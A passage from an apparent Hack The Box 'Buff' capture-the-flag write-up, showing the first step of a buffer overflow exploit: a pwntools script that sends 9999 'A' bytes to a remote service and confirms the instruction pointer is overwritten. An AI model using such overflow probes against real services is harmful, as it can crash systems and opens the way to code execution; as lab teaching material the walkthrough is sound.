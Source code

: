 ![Desktop View](/img/htb/buff/run_button.png)

Once the program starts I'll begin to write the exploit script in python.

#### checking for buffer overflow
First I'll send 9999 "A"s to the program to verify a buffer overflow vulnerability.

```python
#!/usr/bin/env python3
from pwn import *

def exploit():
    
    buffer="\x41" * 9999

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()
```

```sh
python exp.py
```

by checking the registers I confirm that it is vulnerable to buffer overflow since eip was overwritten with "A"s

![Desktop View](/img/htb/buff/registers_1.png)
